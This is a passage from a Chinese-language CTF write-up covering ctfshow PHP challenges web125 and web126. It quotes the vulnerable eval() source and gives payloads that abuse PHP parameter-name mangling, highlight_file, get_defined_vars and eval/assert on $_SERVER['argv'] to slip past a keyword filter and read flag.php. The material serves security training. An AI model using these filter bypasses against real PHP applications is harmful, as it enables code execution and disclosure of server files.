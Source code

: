 payload:

```
POST CTF_SHOW=1&CTF[SHOW.COM=1&fun=highlight_file($_GET[1])
GET 1=flag.php
```

其他的 payload：

```php
POST CTF_SHOW=&CTF[SHOW.COM=&fun=var_export(get_defined_vars())
```

#### web126

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: Firebasky
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-07 22:02:47
#
#
*/
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}

```

基本上ban掉了能读文件的函数

参考[ctfshow-web入门-php特性（web123、web125、web126）_ctfshow web123-CSDN博客](https://blog.csdn.net/Myon5/article/details/140464776)

payload:

```
get：?$fl0g=flag_give_me;
post：CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])
or
GET:?$fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
```
